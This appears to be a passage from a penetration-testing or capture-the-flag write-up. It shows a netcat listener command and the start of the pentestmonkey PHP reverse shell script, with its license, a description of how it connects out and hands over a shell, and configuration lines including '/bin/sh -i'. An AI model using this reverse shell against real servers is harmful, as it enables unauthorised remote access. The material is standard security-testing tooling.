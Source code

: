 ```bash

nc -lnvp $port 
```

And my shell is:&#x20;

```php
<?php
// php-reverse-shell - A Reverse Shell implementation in PHP
// Copyright (C) 2007 pentestmonkey@pentestmonkey.net
//
// This tool may be used for legal purposes only.  Users take full responsibility
// for any actions performed using this tool.  The author accepts no liability
// for damage caused by this tool.  If these terms are not acceptable to you, then
// do not use this tool.
//
// In all other respects the GPL version 2 applies:
//
// This program is free software; you can redistribute it and/or modify
// it under the terms of the GNU General Public License version 2 as
// published by the Free Software Foundation.
//
// This program is distributed in the hope that it will be useful,
// but WITHOUT ANY WARRANTY; without even the implied warranty of
// MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE.  See the
// GNU General Public License for more details.
//
// You should have received a copy of the GNU General Public License along
// with this program; if not, write to the Free Software Foundation, Inc.,
// 51 Franklin Street, Fifth Floor, Boston, MA 02110-1301 USA.
//
// This tool may be used for legal purposes only.  Users take full responsibility
// for any actions performed using this tool.  If these terms are not acceptable to
// you, then do not use this tool.
//
// You are encouraged to send comments, improvements or suggestions to
// me at pentestmonkey@pentestmonkey.net
//
// Description
// -----------
// This script will make an outbound TCP connection to a hardcoded IP and port.
// The recipient will be given a shell running as the current user (apache normally).
//
// Limitations
// -----------
// proc_open and stream_set_blocking require PHP version 4.3+, or 5+
// Use of stream_select() on file descriptors returned by proc_open() will fail and return FALSE under Windows.
// Some compile-time options are needed for daemonisation (like pcntl, posix).  These are rarely available.
//
// Usage
// -----
// See http://pentestmonkey.net/tools/php-reverse-shell if you get stuck.

set_time_limit (0);
$VERSION = "1.0";
$ip = '127.0.0.1';  // CHANGE THIS
$port = 1234;       // CHANGE THIS
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; /bin/sh -i';
$daemon = 0;
```